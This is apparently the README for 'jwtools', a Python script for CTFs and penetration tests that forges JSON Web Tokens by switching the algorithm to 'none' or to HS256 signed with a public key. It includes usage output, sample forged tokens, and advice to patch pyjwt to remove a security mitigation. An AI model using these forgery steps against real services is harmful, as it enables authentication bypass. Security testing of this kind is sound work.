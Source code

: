 # jwtools

This script implements **known trivial attacks against JSON Web Tokens** in order to test implementations encountered during CTFs or pentests.

It is possible to:

* Decode a JWT
* Replace the signing algorithm with 'none'
* Change the signing algorithm from 'RS256' to 'HS256' and use a public key to sign the token

## Dependency

### Recommended

This script relies on **pyjwt version 0.4.3** module. You can install it with the following:

```
$ pip install pyjwt==0.4.3
```

### Alternative

If you want to use the latest version of pyjwt, you will have to patch the library code. Developpers have added a "security mitigation" which prevents the user from signing a JWT with a public key. In order to bypass this restriction, you can replace the code of **prepare_key()** in ~/.local/lib/python2.7/site-packages/jwt/algorithms.py with the following:

BEFORE

![Original prepare_key](./screens/original_prepare_key.png)

AFTER

![Modified prepare_key](./screens/modified_prepare_key.png)

## Usage

```bash
$ python jwtools.py -h
usage: ./jwtools.py [-h] [-v] [-p PUBLIC] token {info,to-none,to-hs256}

Known attacks against JSON Web Tokens in order to test implementations security.

positional arguments:
  token                 The JWT you want to modify.
  {info,to-none,to-hs256}
                        info: displays decoded token content.
                        to-none: replaces token 'alg' field with 'none'.
                        to-hs256: replaces token 'alg' field with 'HS256' and signs it with given public key.

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -p PUBLIC, --public PUBLIC
                        The public key associated with the token
```

## Examples

* info

```
$ python jwtools.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmb2xsb3ciOiJib2l0ZWFrbG91In0.G-N1qBVvkvmC_p6MQ-99LQBX1cR0t40ANvP3HrIOs5I info

[+] Decoded token
        Header: {"alg":"HS256","typ":"JWT"}
        Payload: {"follow":"boiteaklou"}
```

* to-none

```
$ python jwtools.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmb2xsb3ciOiJib2l0ZWFrbG91In0.G-N1qBVvkvmC_p6MQ-99LQBX1cR0t40ANvP3HrIOs5I to-none

[+] Signature algorithm successfuly changed to 'none'.
[+] New token: eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJmb2xsb3ciOiJib2l0ZWFrbG91In0

$ python jwtools.py eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJmb2xsb3ciOiJib2l0ZWFrbG91In0 info

[+] Decoded token
        Header: {"alg":"none","typ":"JWT"}
        Payload: {"follow":"boiteaklou"}
```

* to-hs256

```
$ python jwtools.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmb2xsb3ciOiJib2l0ZWFrbG91In0.G-N1qBVvkvmC_p6MQ-99LQBX1cR0t40ANvP3HrIOs5I --public public.pem to-hs256

[+] Signature algorithm successfuly changed to 'HS256'.
[+] New token signed with public key: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmb2xsb3ciOiJib2l0ZWFrbG91In0.Q64GJHgp-f1pYb4a75aaBNkbiRqnwGGuffsOG8_CjmQ

$ python jwtools.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmb2xsb3ciOiJib2l0ZWFrbG91In0.Q64GJHgp-f1pYb4a75aaBNkbiRqnwGGuffsOG8_CjmQ info

[+] Decoded token
        Header: {"alg":"HS256","typ":"JWT"}
        Payload: {"follow":"boiteaklou"}
```
